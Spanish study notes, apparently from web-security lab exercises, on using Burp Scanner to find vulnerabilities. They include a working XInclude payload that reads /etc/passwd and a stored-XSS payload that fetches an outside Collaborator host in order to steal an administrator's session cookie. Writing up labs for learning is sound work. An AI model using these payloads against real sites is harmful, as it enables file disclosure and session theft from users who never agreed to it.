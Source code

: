## BurpScan Lab Practicioner Escaneo Dirigido

Haremos crawling en el apartado de:  http history --> do Active Scan con btn +drch

Aunque necesitaremos BurpPro:

![[Pasted image 20240205130128.png]]
  
En el apartado Issues me sale la vulnerabilidad de la web, incluso payloads a probar:

![[Pasted image 20240205130155.png]]

  

Mando al repeater la petición y en productID pongo esta línea:

foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>

[XInclude es una especificación emergente de W3C para la construcción de grandes documentos XML]

Obtengo el archivo /etc/passwd y solvento el LAB

##  BurpScan Escaneando estructuras de datos no estándar y Puntos de inserción

Datos: `wiener:peter`

email: wiener@normal-user.net

Debemos de eliminar carlos

Con btn + drch uedo escanear un sólo punto  de inserción , como las cookies

Encuentro GET=wiener y veo que la cookie está asociado al user es: (El escaneo fue en la segunda cadena "session")

![[Pasted image 20240206112054.png]]

Observo que está separado por %3a , por lo que la web lo trata como dos inputs

Tras la espera suelta un XSS Stored:

![[Pasted image 20240206113500.png]]

  

### Exfiltración de cookies de admin

Dashboard --> Request --> mando request a repeater --> selecciono session y en inspector (a la derecha) me lo decodea

La decodificación es:

'"><svg/onload=fetch`//1acc91qxsdwflwrc9vfem3lau10zopch25tvgl4a\.oastify.com`>:8PeVRPDCbds6tzJZYeALeSXUbsrBJdyZ
 

Debo copiar el payload del apartado colaborator:

